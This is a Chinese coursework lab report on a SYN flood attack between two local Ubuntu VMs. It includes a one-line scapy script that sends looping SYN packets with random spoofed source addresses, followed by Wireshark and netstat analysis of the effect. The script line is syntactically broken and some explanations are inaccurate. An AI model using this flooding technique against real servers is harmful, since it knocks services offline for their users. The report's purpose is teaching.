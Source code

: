 # <center>网络与信息安全课内实验-对DDos攻击的理解</center>

## 1. 实验目的

1. 熟悉 Linux 系统,Wireshark 软件基本操作。
2. SYN 洪泛攻击的实现与观察

## 2. 实验平台

1. Server：ubuntu虚拟机 18.04.6 LTS，安装Apache24
2. Attacker：ubuntu虚拟机 22.04.3，与server处于同一网段（局域网）

## 3. 实验步骤

1. **Server：安装Apache24**

    ```shell
    sudo apt-get install apache2
    ```

    安装成功后访问`127.0.0.1`,出现如下界面，说明apache安装成功
    ![Alt text](image.png)

2. **Attacker：安装scapy**

    ```shell
    sudo python3 -m pip install scapy
    ```

    安装后运行

    ```shell
    scapy
    ```

    出现如下界面，说明scapy安装成功
    ![Alt text](image-1.png)

3. **获取server虚拟机的ip地址**

    ```shell
    ifconfig
    ```

    得到了server的ip地址为`192.168.153.133`
    ![Alt text](image-2.png)

    在Attacker浏览器中访问`192.168.153.133`，出现如下界面，说明访问成功
    ![Alt text](image-3.png)

4. **Attacker：编写攻击脚本**

    编写攻击脚本`SYN_flood.py`:

    ```python
    from scapy.all import *

    send(IP(src=RandIP(),dst='192.168.153.133')/fuzz(TCP=(dport=80),flags=0x002),loop=1)
    ```

    ==代码解析==
    1. send()函数：发送数据包，包含两个参数，第一个参数为要发送的数据包，第二个参数为发送次数
    2. IP()函数：构造IP数据包，包含两个参数，第一个参数为源IP地址，第二个参数为目的IP地址
    3. RandIP()函数：随机生成一个IP地址
    4. fuzz()函数：构造TCP数据包，包含两个参数，第一个参数为TCP数据包的目的端口号，第二个参数为TCP数据包的标志位
    5. port=80：将TCP数据包的目的端口号设置为80，即==HTTP协议的端口号==
    6. flags=0x002：将TCP数据包的标志位设置为SYN，即SYN洪泛攻击，发送大量的==连接建立请求 (SYN) 数据包==

5. **在Server端运行Wireshark**
    运行Wireshark需要root权限，因此使用sudo命令运行

    ```shell
    sudo wireshark
    ```

    为了筛选我们发送的ddos攻击，在Wireshark中设置过滤器为`tcp.flags==0x002`，即只显示TCP标志位为SYN的数据包
    ![Alt text](image-4.png)
    解析：
    1. 观察No列和time列，可以看到在100s左右发送了239868个SYN数据包，这些数据包都是Attacker发送的,说明Attacker在短时间内发送了大量的SYN数据包，体现了DDos攻击的特点。
    2. 观察Destination列，可以看到所有的数据包都是发送给了Server`192.158.153.133`，说明Attacker的攻击目标是Server。
    3. 观察Source列，可以看到所有的数据包是来自不同的IP地址，这个是由于我们的攻击脚本中使用了RandIP()函数，随机生成了大量的IP地址。
    4. 观察Info列，可以看到所有的数据包都是TCP协议，这是由于我们的攻击脚本中使用了fuzz()函数，构造了大量的TCP数据包。

6. **选取一个TCP协议数据包具体分析**

    ```console
    Frame 288346: 66 bytes on wire (528 bits), 66 bytes captured (528 bits) on interface 0
    Ethernet II, Src: Vmware_c4:77:d8 (00:0c:29:c4:77:d8), Dst: Vmware_79:38:f0 (00:0c:29:79:38:f0)
    Internet Protocol Version 4, Src: 211.122.213.201, Dst: 192.168.153.133
    Transmission Control Protocol, Src Port: 4737, Dst Port: 80, Seq: 0, Len: 0
    Source Port: 4737
    Destination Port: 80
    [Stream index: 114506]
    [TCP Segment Len: 0]
    Sequence number: 0    (relative sequence number)
    [Next sequence number: 0    (relative sequence number)]
    Acknowledgment number: 2893260800
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x002 (SYN)
    Window size value: 43959
    [Calculated window size: 43959]
    Checksum: 0xd89d [unverified]
    [Checksum Status: Unverified]
    Urgent pointer: 55034
    Options: (12 bytes), SACK, Unknown (0x19), Unknown (0x0f), Unknown (0x0f), SACK, End of Option List (EOL)
    [Timestamps]
    ```

    解析：
    1. `Frame 288346`: 这是捕获的数据包的帧序号，第 288346 个数据包。

    2. `Ethernet II`: 这部分指示了数据包的以太网帧头信息，包括源地址和目标地址。

    3. `Src: Vmware_c4:77:d8 (00:0c:29:c4:77:d8)`: 这是以太网帧的源地址。

    4. `Dst: Vmware_79:38:f0 (00:0c:29:79:38:f0)`: 这是以太网帧的目标地址。

    5. `Internet Protocol Version 4`: 这部分指示了数据包的 IP 头信息，包括源 IP 地址和目标 IP 地址。

    6. `Src: 211.122.213.201`: 这是数据包的源 IP 地址。

    7. `Dst: 192.168.153.133`: 这是数据包的目标 IP 地址。

    8. `Transmission Control Protocol`: 这部分包括了数据包的 TCP 头信息，指示了 TCP 连接的细节。

    9. `Src Port: 4737`: 这是数据包的源端口。

    10. `Dst Port: 80`: 这是数据包的目标端口，通常用于 HTTP。

    11. `Flags: 0x002 (SYN)`: 这是 TCP 头的标志，表示这是一个连接建立请求 (SYN) 数据包。

    12. `Window size value: 43959`: 表示 TCP 窗口大小，用于流量控制。

    13. `Sequence number: 0:` 表示这个数据包的序列号。

    14. `Acknowledgment number: 2893260800`: 表示确认号，即期望接收的下一个序列号。

    15. `Options`: 这部分包括 TCP 选项，如时间戳等。

7. **在server端运行**

    ```shell
    netstat -an
    ```

    ![Alt text](image-5.png)
    解析：
    1. 观察proto列，全为tcp6，说明server端监听的是TCP协议的端口。
    2. 观察recv-Q列和send-Q列，可以看到有大量的连接处于等待状态，这是由于Attacker发送了大量的SYN数据包，但是没有发送ACK数据包，导致server端的连接处于等待状态。
    3. 观察local address列，都为`ubuntu:http`，说明server端监听的是http协议的端口。
    4. 观察foreign address列，为随机的
    5. 观察state列，都为`SYN_RECV`，说明server端处于等待连接状态。

## 4. 实验总结

### 1. 实验过程中遇到的问题

1. 未使用过Wireshark，不知道如何使用，需要更多时间去学习Wireshark的使用。
2. 安装scapy时出现了错误。改用`sudo python3 -m pip install scapy`命令安装成功。

### 2. 实验收获

1. 学会了使用Wireshark抓包，分析数据包。
2. 与目前在学的计算机网络知识相结合，对TCP协议的连接建立过程有了更深的理解。对TCP报头的各个字段有了更深的理解。
